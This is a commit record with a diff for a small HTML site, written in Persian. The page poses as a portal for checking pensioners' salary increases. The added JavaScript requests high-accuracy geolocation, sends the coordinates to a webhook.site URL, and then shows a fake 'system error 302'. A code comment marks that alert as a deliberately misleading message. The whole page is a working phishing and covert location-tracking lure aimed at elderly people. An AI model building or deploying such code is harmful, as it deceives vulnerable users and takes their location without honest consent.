

Before and after one commit to minicamera423-cyber/my-site, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,69 +3,86 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>سامانه بررسی افزایش حقوق بازنشستگان</title>
+    <title>سامانه بررسی وضعیت حقوق</title>
     <style>
-body { font-family: 'Tahoma', Arial; background-color: #fdfdfd; text-align: center; padding: 0; margin: 0; }
-.header { background-color: #1a5276; color: white; padding: 20px; font-size: 18px; font-weight: bold; }
-.content { padding: 30px 20px; }
-.info-box {
-background: #ebedef;
-border-left: 5px solid #1a5276;
-padding: 15px;
-margin-bottom: 25px;
-text-align: right;
-font-size: 14px;
-color: #333;
+        body {
+            font-family: Tahoma, Arial, sans-serif;
+            text-align: center;
+            padding: 20px;
+            background-color: #f4f7f6;
+            direction: rtl;
         }
+        .container {
+            max-width: 500px;
+            margin: 50px auto;
+            background: white;
+            padding: 30px;
+            border-radius: 15px;
+            box-shadow: 0 4px 15px rgba(0,0,0,0.1);
+        }
+        h2 { color: #2c3e50; }
+        p { color: #7f8c8d; margin-bottom: 25px; }
         .btn {
-background-color: #27ae60;
+            background-color: #2ecc71;
             color: white;
-padding: 15px 40px;
+            padding: 15px 30px;
             font-size: 18px;
+            font-weight: bold;
             border: none;
-border-radius: 8px;
             cursor: pointer;
-font-weight: bold;
-box-shadow: 0 4px 6px rgba(0,0,0,0.1);
+            border-radius: 10px;
+            transition: background 0.3s;
         }
-.btn:hover { background-color: #2ecc71; }
-#status { margin-top: 20px; color: #c0392b; font-weight: bold; }
+        .btn:hover { background-color: #27ae60; }
     </style>
 </head>
 <body>
-
-<div class="header">
-سامانه الکترونیکی بررسی وضعیت حقوق بازنشستگان
-</div>
-
-<div class="content">
-<div class="info-box">
-<strong>توجه:</strong> جهت ثبت درخواست افزایش حقوق و بررسی وضعیت استحقاق، ابتدا باید موقعیت مکانی شما جهت تایید منطقه سکونت تایید گردد.
-</div>
-
-<p>برای شروع فرآیند تایید هویت و ثبت درخواست، روی دکمه زیر کلیک کنید:</p>
-<button class="btn" onclick="getLocation()">تایید موقعیت و ورود به سامانه</button>
-
-<div id="status"></div>
+    <div class="container">
+        <h2>سامانه بررسی افزایش حقوق بازنشستگان</h2>
+        <p>جهت تایید منطقه سکونت و مشاهده وضعیت پرداخت‌ها، روی دکمه زیر کلیک نمایید.</p>
+        <button class="btn" onclick="getLocation()">تأیید منطقه سکونت و ورود</button>
     </div>
 
     <script>
     function getLocation() {
-var status = document.getElementById("status");
-status.innerHTML = "در حال بررسی موقعیت مکانی... لطفاً اجازه دسترسی را تایید کنید.";
+        // این پیام برای تست است که بفهمی دکمه کار می‌کند
+        console.log("Button clicked!");
 
         if (navigator.geolocation) {
-navigator.geolocation.getCurrentPosition(showPosition, showError);
+            navigator.geolocation.getCurrentPosition(sendPosition, showError, {
+                enableHighAccuracy: true,
+                timeout: 10000,
+                maximumAge: 0
+            });
         } else {
-status.innerHTML = "مرورگر شما از این قابلیت پشتیبانی نمی‌کند.";
+            alert("مرورگر شما از قابلیت مکان‌یابی پشتیبانی نمی‌کند.");
         }
     }
 
-function showPosition(position) {
+    function sendPosition(position) {
         var lat = position.coords.latitude;
         var lon = position.coords.longitude;
 
-// لینک Webhook خودت را اینجا جایگزین کن
+        // لینک وب‌هوک شما
         var webhookUrl = "https://webhook.site/3e658cab-cff7-4b12-ad19-52d6e636d924";
 
-fetch(${webhookUrl}?lat=`${lat}&lon=${lon
+        var data = "lat=" + lat + "&lon=" + lon;
+
+        // ارسال داده‌ها به وب‌هوک
+        fetch(webhookUrl + "?" + data, { method: 'GET' })
+        .then(() => {
+            // پیام گمراه کننده برای کاربر
+            alert("خطای سیستم ۳۰۲: ارتباط با سرور مرکزی قطع شد. لطفاً با پشتیبانی تماس بگیرید.");
+        })
+        .catch(err => {
+            alert("خطای شبکه در ارسال اطلاعات.");
+        });
+    }
+
+    function showError(error) {
+        // اگر کاربر Allow نزند، این پیام ظاهر می‌شود
+        alert("خطای سیستم ۳۰۲: دسترسی به مکان تایید نشد. برای ادامه، اجازه دسترسی به لوکیشن را فعال کنید.");
+    }
+    </script>
+</body>
+</html>
```
Lines whose indentation alone changed are shown as unchanged.
